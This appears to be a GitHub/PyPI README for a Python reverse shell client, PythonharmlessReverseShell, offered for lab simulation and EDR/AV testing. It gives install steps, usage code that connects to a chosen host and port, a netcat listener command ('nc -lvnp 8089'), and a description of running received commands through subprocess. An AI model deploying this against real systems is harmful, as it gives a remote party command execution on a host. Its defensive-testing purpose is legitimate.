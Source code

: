 # PythonharmlessReverseShell

**PythonharmlessReverseShell** is a minimal Python implementation of a reverse shell client, intended strictly for **educational**, **simulation**, or **defensive testing** purposes. It is designed to help security professionals and developers understand how reverse shell behavior might look in controlled environments — without causing harm.

> ⚠️ **Disclaimer:** This code is non-malicious, has no persistence, and does not attempt privilege escalation or obfuscation. Use it only in authorized environments. Misuse can lead to legal or disciplinary consequences.

---

## ⚙️ Use Case

This package is useful for:
- Simulating reverse shell behavior in lab environments
- Testing EDR/AV responses
- Demonstrating potential risks of Python-based payloads
- Educating SOC teams and developers on threat detection

---

## 📦 Installation

Install from [PyPI](https://pypi.org/project/PythonHarmlessReverseShell/):

```bash
pip install PythonHarmlessReverseShell
```

Or clone the repository manually:

```bash
git clone https://github.com/yourusername/PythonharmlessReverseShell.git
cd PythonharmlessReverseShell
```

---

## ⚙️ Usage

### In Python Code

```python
from PythonHarmlessReverseShell.main import reverse_shell_client, ReverseConfiguration

# Use default config (localhost:8089)
reverse_shell_client()

# Use custom config
config = ReverseConfiguration(host="192.168.1.100", port=9001)
reverse_shell_client(config)
```

### As a CLI Tool

You can run the reverse shell client with default settings using:

```bash
reverse-shell-client
```

This command connects to `127.0.0.1:8089` and starts listening for commands.

---

## 🔍 How It Works

1. Connects to a remote TCP server using the given host and port
2. Waits for a command to be received
3. Executes the command locally using `subprocess.getoutput`
4. Sends the result/output back to the server
5. Continues until receiving the command `exit`

---

## 🔐 Security Considerations
- This tool does **not** persist after execution
- It requires manual execution
- Useful for AV/EDR testing, not actual backdoor deployment
- Make sure you run this only in isolated and controlled systems

---

## 🔈 Example Listener (Netcat)

To test this, run the following **on your listener machine**:

```bash
nc -lvnp 8089
```
Then run the Python script on the target system.

---

## 🧱 Project Structure

```
PythonharmlessReverseShell/
├── PythonHarmlessReverseShell/
│   └── main.py
├── README.md
├── LICENSE
└── ...
```

---

## 🔐 Legal & Ethical Use

This project is provided **strictly for educational and authorized testing** purposes. Do **not** use this code in real-world attacks or against systems you do not own or have explicit permission to test.

---

## 📜 License

MIT License — see [LICENSE](LICENSE) file for details.

---

## 🤝 Contributing

Pull requests and suggestions are welcome for educational improvements or use-case extensions.

---

## 💬 Contact

Created by [Khalid Al-Amri](https://www.linkedin.com/in/khalidwalamri/) for awareness and red team simulations.
